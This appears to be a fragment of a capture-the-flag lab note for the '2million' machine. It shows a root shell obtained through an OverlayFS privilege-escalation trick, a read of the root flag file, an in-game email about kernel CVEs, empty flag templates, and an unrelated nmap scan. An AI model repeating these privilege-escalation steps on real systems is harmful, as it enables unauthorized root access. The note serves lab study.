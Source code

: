 
```
root@2million:/tmp/ovlcap/upper# sudo file
Usage: file [-bcCdEhikLlNnprsSvzZ0] [--apple] [--extension] [--mime-encoding]
            [--mime-type] [-e <testname>] [-F <separator>]  [-f <namefile>]
            [-m <magicfiles>] [-P <parameter=value>] [--exclude-quiet]
            <file> ...
       file -C [-m <magicfiles>]
       file [--help]
root@2million:/tmp/ovlcap/upper# sudo ./file
root@2million:/tmp/ovlcap/upper# cat /root/root.txt 
a9dc068d8687b6da982b08a61c95ef21
33087587a5ba2a55eb91567ee828e74a
```

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
```

---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```


tp-link
```
Nmap scan report for 192.168.18.29
Host is up (0.077s latency).

PORT   STATE    SERVICE
80/tcp filtered http
MAC Address: DA:0D:17:DB:E3:78 (Unknown)



```